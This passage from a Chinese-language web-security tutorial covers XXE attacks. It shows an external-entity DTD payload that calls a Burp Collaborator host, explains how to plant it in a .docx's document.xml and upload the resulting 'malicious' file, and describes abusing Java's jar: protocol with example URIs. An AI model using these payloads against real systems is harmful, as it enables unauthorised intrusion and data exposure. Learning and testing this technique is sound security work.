 打开./unzipped/word/document.xml，并将该相关 payload 写入 XML 文件中。我首先尝试的是HTTP请求，如下所示：

```xml-dtd
<!DOCTYPE x [ <!ENTITY test SYSTEM "http://[ID].burpcollaborator.net/"> ]>
<x>&test;</x>
```

这些行应该插入到两个根XML对象之间，如下图所示：

![img](XXE.assets/xxe-obscure.png)

剩下的就是压缩文件以创建恶意的 poc.docx 文件。从我们之前创建的“解压缩”目录中，运行以下命令：

![img](XXE.assets/xxe-unzipped.png)

现在上传该恶意文件然后在相关平台中查看是否有相关请求触发。

### Jar: 协议

Jar协议只能在Java的应用程序中触发，它允许访问PKZIP（.zip，.jar）中的文件，并且适用于本地或者远程文件。

利用方式：

```java
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

**运行过程中：**

- 发送一个 http 请求（https://download.host.com/myarchive.zip）加载一个ZiP文档。
- 将Response包保存在本地临时文件/tmp目录下。
- 提取文档内容
- 读取file.zip
- 删除保存在 /tmp 目录下的文件
